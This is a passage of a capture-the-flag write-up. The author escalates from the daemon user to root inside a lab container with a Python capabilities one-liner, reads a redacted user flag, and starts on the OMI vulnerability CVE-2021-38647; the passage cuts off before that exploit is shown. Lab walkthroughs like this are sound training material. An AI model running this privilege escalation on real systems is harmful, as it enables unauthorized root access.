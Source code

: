 I simply use the exploit payload to get the **root** user following these steps:

```
daemon@4a70924bafa0:/bin$ /usr/bin/python3.7 -c "import os;os.setuid(0); os.system('/bin/bash')"
<-c "import os;os.setuid(0); os.system('/bin/bash')"
root@4a70924bafa0:/bin# whoami
whoami
root
root@4a70924bafa0:/bin# id
id
uid=0(root) gid=1(daemon) groups=1(daemon)
```

Read more at [this source](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/).

Then I easily navigate to the `/root/` directory and get the user flag:

```
root@4a70924bafa0:/bin# cd /root
cd /root
root@4a70924bafa0:/root# ls -l
ls -l
total 4
-rw-r--r-- 1 root root 38 Oct  8  2021 user.txt
root@4a70924bafa0:/root# cat user.txt
cat user.txt
THM{REDACTED}
```

## OMI server - CVE-2021-38647

The only available flag located in the `/root/` directory is the user flag. So, where is the root flag?

```
root@4a70924bafa0:/root# find / -name "root.txt"
find / -name "root.txt"
find: ‘/proc/1/map_files’: Permission denied
find: ‘/proc/8/map_files’: Permission denied
find: ‘/proc/9/map_files’: Permission denied
find: ‘/proc/10/map_files’: Permission denied
find: ‘/proc/11/map_files’: Permission denied
find: ‘/proc/93/map_files’: Permission denied
find: ‘/proc/142/map_files’: Permission denied
find: ‘/proc/143/map_files’: Permission denied
find: ‘/proc/145/map_files’: Permission denied
find: ‘/proc/146/map_files’: Permission denied
find: ‘/proc/150/map_files’: Permission denied
find: ‘/proc/151/map_files’: Permission denied
```

I got stuck at here for a half hour, then I started to enumerate the communicating hosts and found this interested thing:
